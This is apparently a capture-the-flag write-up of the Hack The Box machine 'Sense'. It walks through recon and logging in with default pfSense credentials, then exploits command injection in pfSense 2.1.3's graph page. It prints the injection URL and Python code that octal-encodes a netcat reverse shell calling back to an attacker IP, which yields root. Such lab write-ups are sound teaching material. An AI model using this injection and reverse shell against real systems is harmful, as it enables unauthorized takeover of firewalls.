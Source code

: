 # Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/sense-01.png)

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/nmap-res-02.png)

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://sense.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/site-03.png)

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/dns-rebind-04.png)

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/login-05.png)

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.206/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/users.png)

If we open this file we can see the following:

![file-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/file-07.png)

This gives us a username. The password is set to be "company default", if we search online for default pfSense credenitlas we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/admin-panel-08.png)

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/searchsploit-09.png)

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/source-10.png)

Two things are going on here. First the actual payload is encoded to octal values. Next, the actual exploitation is executed via a Get request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/req-11.png)

This gets me a shell as root:

![root-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/root-12.png)

